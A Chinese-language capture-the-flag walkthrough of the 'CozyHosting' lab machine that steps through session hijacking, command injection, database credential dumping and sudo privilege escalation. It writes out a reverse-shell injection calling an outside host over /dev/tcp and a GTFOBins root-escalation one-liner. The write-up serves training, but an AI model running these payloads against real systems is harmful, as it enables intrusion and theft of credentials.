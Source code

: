 CozyHosting Level:Easy
===
尋找user.txt
---
   1.Nmap掃描IP，發現有開22、80

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/be94bec4-7737-4fb2-8017-4f20fccf7517)

   2.使用dirsearch搜尋目錄，找到/actuator/sessions，內容跟session有關

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/969ec080-c913-4f63-b819-1aa035fd5303)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/a068678f-5ba5-48ce-8923-3fc98f91c180)

   3.透過session cookie登入Web

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/df05fe7b-4e80-4c59-b946-eb1746901947)

   4.找到疑似可執行ssh，透過burpsuite抓包測試確認可以執行指令

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f05c4cc3-a6d0-4d1f-bfd4-33d3ab5bcc4e)

   5.插入reverse shell取得shell

     ;`(sh)0>/dev/tcp/10.10.14.62/1234`   ;表示指令分隔符，它可以讓你在一行中連續執行多個指令。 ``反引號（backticks），表示執行包裹在其內部的命令，並將其輸出插入到命令列中。
 
![圖片](https://github.com/favorite986141/jamescao/assets/125249893/eb0de815-97af-4104-bfd9-5ccb5aea6225)

   6.輸入exec >&0，它會將腳本或程式的輸出重新定向到標準輸入，這通常被用於隱藏輸出或將輸出發送到相同的地方作為輸入，以便與輸入進行互動。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/9048a526-b34b-46a3-834b-158df8333b02)

   7.最後輸入script /dev/null -c bash，將輸出記錄到/dev/null就會被拋棄。這樣執行的命令不會在目標上留下任何痕跡

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1d0621b2-8094-4c44-b98c-00f323093450)

   8.在當前目錄下沒有user.txt但發現有一個jar包，將jar包載下來

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/bb41f8bb-e22f-433a-b1ce-b32306443242)

   9.解開jar包，使用grep 找出postgres的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/70c02312-0773-4199-9b55-d07483c3b52e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/ceb7f02e-d4a9-4d8a-b0b4-df1927125c9e)

   10.看到postgres服務是開啟的

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f184b159-513c-465a-99e8-3d963383a0e3)

   11.連入postgres

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/8e466690-9663-4a26-9d5b-65bdaf120231)

   12.可以看到兩個表hosts、users，關注users這張表

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/d3ecc83f-5181-42a6-8051-8cd4b655f1a2)

   13.找到了兩個帳號

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/f063f5cf-559a-4c8a-a5a0-25b65bc1fd74)

   14.破解admin密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/e7ef2237-92cb-450e-a256-d4c2d7967ae0)

   15.試了三次都失敗，可能不是admin的密碼

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/0495abd2-5ef2-48f8-b12c-1bfeec816f38)

   16.檢查/etc/passwd，發現還有josh帳號，使用josh登入成功

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1737df42-4cfd-4387-b9bc-1400f818da4e)

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/3363ba3a-7f98-44ca-86e0-8790d239b30f)

   17.找到user.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/7d3bcc1e-2246-4153-b22f-f8770b666be5)

   18.執行sudo -l發現SSH 可以使用 root 權限執行。

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1aa189e9-4cf6-4c3a-a9e2-62c70a61938e)

   19.到[gtfobins](https://gtfobins.github.io/gtfobins/ssh/#sudo)找到指令提權

     sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/c1fd6925-0dcd-453f-a184-fb372a7d1e1a)

   20.找到root.txt

![圖片](https://github.com/favorite986141/jamescao/assets/125249893/1db3328f-75e6-4f8e-92ef-f9a0b83b34ef)
